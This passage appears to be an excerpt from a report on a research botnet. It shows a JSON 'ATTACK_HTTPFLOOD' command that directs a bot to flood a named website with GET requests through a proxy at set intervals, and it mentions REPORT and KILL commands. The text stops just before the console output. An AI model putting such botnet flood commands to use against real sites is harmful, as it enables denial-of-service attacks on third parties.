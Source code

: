 \begin{verbatim}
  {
    "command": "ATTACK_HTTPFLOOD",
    "attacks": [
      {
        "method": "GET",
        "target": "http://www.gmarciani.com"
      },
      {
        "method": "GET",
        "target": "http://www.gmarciani.com",
        "proxy": "31.220.56.101:80",
        "header": {
          "User-Agent": "MyAwesomeBot"
        },
        "executions": 3,
        "period": "10-15:SECONDS"
      }
    ]
  }
\end{verbatim}

followed by a command \texttt{REPORT} to send the bot report to the controller, and a command \texttt{KILL} shutdown the bot, respectively.
The following is the console output\footnote{classes and methods name indicated in \ref{sec:logging} have been omitted for better page formatting.}:

